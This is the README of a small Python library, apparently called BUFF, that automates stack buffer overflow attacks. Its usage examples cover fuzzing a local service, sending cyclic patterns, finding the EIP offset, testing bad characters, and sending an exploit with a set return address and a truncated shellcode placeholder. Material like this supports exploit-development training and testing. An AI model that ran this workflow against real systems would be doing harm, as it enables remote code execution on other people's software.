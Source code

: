 # What is BUFF?
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Send exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# Set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
